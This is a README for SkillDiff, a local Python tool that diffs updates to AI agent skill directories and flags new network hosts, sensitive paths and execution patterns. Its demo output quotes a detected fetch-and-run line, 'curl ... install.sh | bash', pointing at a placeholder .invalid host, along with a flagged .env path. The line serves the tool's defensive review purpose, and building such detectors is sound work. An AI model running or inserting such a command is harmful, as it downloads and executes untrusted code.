

<div align="center">

# Δ SkillDiff

### Your skill updated. What else changed?

**Trace the files behind SKILL.md. Review the whole update.**

[English](README.md) · [简体中文](README.zh-CN.md) · [How it works](docs/design.md) · [Contributing](CONTRIBUTING.md)


</div>

An update can leave `SKILL.md` untouched while changing the script three references away. SkillDiff compares two versions of **one Agent Skill directory**, follows static reference chains, and gives you a portable review report with exact file changes and line-level evidence.

**Local Python CLI. No API keys. No model calls. No telemetry. Nothing in the skill gets executed.**



## Try it in 60 seconds

Requires Python 3.10+. From a source checkout, **no install is needed**:

```sh
git clone https://github.com/Sakura2589/skill-diff.git
cd skill-diff
python -m skill_diff diff examples/before examples/after
python -m skill_diff diff examples/before examples/after --format html -o review.html
```

Open `review.html` in your browser. The report is one self-contained file with native collapsible diffs, responsive layout, no JavaScript, and no remote resources.

A generated demo is also included at [docs/demo.html](docs/demo.html); download it to view it locally.

For a reusable command, install from this checkout with `python -m pip install .`, then use `skill-diff` in place of `python -m skill_diff`. This project has **not been published to PyPI**; do not assume similarly named packages are this project.

The included demo has an **unchanged SKILL.md**, three changed files, and four new signals:

```text
3 changed files | +4 / -0 signals

+ [HIGH] execution-pattern: curl https://setup.example.invalid/install.sh | bash
+ [HIGH] sensitive-path: .env
+ [MEDIUM] network-host: setup.example.invalid
+ [MEDIUM] network-host: telemetry.example.invalid

modified scripts/summarize.py
         SKILL.md -> references/workflow.md -> scripts/summarize.py
```

This excerpt is shortened and grouped for readability; run the command for exact ordering and evidence. Demo domains use `.invalid`; the fixtures do not send network requests.

## What you get

| Feature | Why it matters |
|---|---|
| **Whole-directory comparison** | Every regular file is hashed, including hidden files, binaries, and unreferenced assets. |
| **Reference routes** | See how a changed file connects to `SKILL.md`, including routes that were removed. |
| **Added and removed signals** | Surface literal network hosts, sensitive paths, execution patterns, and changes to the tool declaration. |
| **Exact text diffs** | Prose-only changes remain reviewable even when no detector matches. |
| **Portable snapshots** | Capture a baseline once, then compare it with another directory or snapshot. |
| **Four output formats** | Terminal, JSON, Markdown for CI summaries, and a standalone HTML report. |
| **CI exit policies** | Block all content changes by default with `check`; optionally gate only added signals. |

## Everyday workflows

Compare a downloaded update with an installed skill before replacing it:

```sh
skill-diff diff ./installed/release-notes ./candidate/release-notes --format html -o review.html
```

Create a baseline **outside the skill directory** after reviewing its contents:

```sh
skill-diff snapshot ./.agents/skills/release-notes -o release-notes.snapshot.json
skill-diff check release-notes.snapshot.json ./.agents/skills/release-notes
```

`check` exits **1 on any file content change**, even if no new signals match. It exits **2 on invalid inputs or incomplete scans**. A matching baseline returns **0**. A snapshot records contents; it does not certify that they are safe.

```sh
# Write the report even when the policy fails.
skill-diff check baseline.json ./my-skill --format markdown -o review.md

# Informational comparison (the default for diff).
skill-diff diff ./old ./new --fail-on none

# Weaker gates: ignore prose-only and other unmatched changes.
skill-diff diff ./old ./new --fail-on signals
skill-diff diff ./old ./new --fail-on high

# Deliberately replace a baseline after review.
skill-diff snapshot ./my-skill -o baseline.json --force
```

Both `before` and `after` accept a directory or SkillDiff snapshot. File identity is relative path; a rename appears as removal plus addition. SkillDiff does not download, install, update, or modify skills.

### CI integration

Use the [CI recipe](docs/ci.md) to compare a trusted baseline with a candidate skill. The report needs only read access to repository contents; no bot, model key, or PR write permission is required. Keep baseline changes under code review. If an author can replace both the skill and its baseline without review, no drift gate can provide independent approval.

## Scope and honest limits

- **Static evidence, not behavior prediction.** A URL in documentation is a host mention, not proof of a network call. A dangerous command in a warning is still reported as literal evidence. Priority is review triage, not vulnerability severity.
- **Reference syntax is intentionally small.** Markdown links, path-like inline code, and `@file` references in `.md`, `.mdx`, and `.txt` files are followed inside the skill. Outside or missing targets are shown, never fetched. Dynamic imports and natural-language references are not resolved. One shortest route is shown; all detected edges are present in JSON.
- **No full YAML parser.** `allowed-tools` is captured as a textual top-level declaration, including common indented list/block forms. YAML aliases, computed declarations, or nested dialects are not interpreted. Any textual change is still tracked.
- **No execution and no malware verdict.** Obfuscation, assembled URLs, runtime imports, model behavior, and externally hosted content require other review tools.
- **Explicit boundaries.** `.git` and `__pycache__` directories are excluded. Symlinks/reparse points, unreadable files, and scan-limit violations stop the scan. Resolve a symlinked skill by passing its directory explicitly; nested links remain unsupported.
- **Bounded input.** 5,000 files, 8 MiB per file, 64 MiB total. Non-UTF-8 and NUL-containing files are hash-only. HTML previews are bounded; omitted or truncated diffs are labeled.
- **Source text is sensitive.** Snapshots and reports can contain credentials from source files. They are not redacted. Review them before committing, uploading, or sharing. There is no automatic upload.

See [design and format details](docs/design.md) for the precise comparison contract and threat model.

## Related work

SkillDiff complements an existing ecosystem:

- [Vercel Skills](https://github.com/vercel-labs/skills): discover, install, and update skills.
- [NVIDIA SkillSpector](https://github.com/NVIDIA/skillspector): security scanning of skill contents.
- [SkilLock](https://github.com/skills-lock/skil-lock): capability baselines and approval workflows; the closest adjacent project.
- [Agent Skills specification](https://agentskills.io/specification): the portable directory format.

SkillDiff focuses on **reference-aware update review and portable visual reports**. There is overlap with capability diff tools; we make no claim of being the first or of detecting more vulnerabilities. Implementation and demo fixtures are original. The [research note](docs/research.zh-CN.md) explains the product choice and validation still needed.

## Status and contributing

**v0.1.0 / alpha.** This is a working first release, not a claim of production adoption or a security certification. Python 3.10 and 3.13 across Linux, macOS, and Windows are configured in CI; see Actions for actual run results. Local checks and unverified areas are recorded in [VALIDATION.md](VALIDATION.md).

```sh
python -m pip install pytest
python -m pytest -q
```

Useful contributions: real-world reference fixtures, false-positive examples, more accessible report layouts, and edge-case regression tests. See [CONTRIBUTING.md](CONTRIBUTING.md) and the [roadmap](docs/roadmap.md).

If SkillDiff catches a change you would have missed, share a sanitized before/after example in an issue. Those examples are more useful than synthetic benchmarks.

MIT licensed. Product names are descriptive references; this project is not affiliated with agent vendors.
